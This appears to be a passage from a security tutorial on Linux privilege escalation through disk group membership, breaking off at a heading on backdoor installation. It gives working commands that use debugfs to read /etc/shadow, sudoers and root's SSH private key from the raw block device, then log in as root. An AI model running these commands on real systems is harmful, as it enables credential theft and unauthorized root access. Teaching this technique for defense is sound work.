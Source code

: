 ## Anatomy of the Disk Group Attack

Let's examine how attackers exploit disk group membership to achieve privilege escalation:

### Initial Reconnaissance

An attacker with limited shell access first identifies their group memberships:

```bash
# Check current user and group membership
id
# Example output: uid=1001(alex) gid=1001(alex) groups=1001(alex),6(disk)

# List accessible block devices
ls -la /dev/sd* /dev/nvme* /dev/vd*
# Example output: brw-rw---- 1 root disk 8, 0 Apr 10 09:00 /dev/sda

# Identify the root filesystem
df -h | grep -E "/$|/boot"
# Example output: /dev/sda1 on / type ext4
```

### Attack Vector 1: Direct File System Access

With disk group membership, an attacker can directly read any file on the system:

```bash
# Read sensitive files directly from the block device
debugfs -R 'cat /etc/shadow' /dev/sda1
debugfs -R 'cat /root/.ssh/id_rsa' /dev/sda1
debugfs -R 'cat /etc/sudoers' /dev/sda1

# For newer systems with multiple partitions
lsblk -f  # Identify partition layout
debugfs -R 'cat /etc/shadow' /dev/sda2  # Usually the root partition
```

### Attack Vector 2: SSH Key Extraction and Privilege Escalation

The most common attack path involves extracting SSH keys:

```bash
# Extract root's SSH private key
debugfs -R 'cat /root/.ssh/id_rsa' /dev/sda1 > /tmp/root_key

# Set proper permissions
chmod 600 /tmp/root_key

# Authenticate as root
ssh -i /tmp/root_key root@localhost
```

### Attack Vector 3: Persistent Backdoor Installation
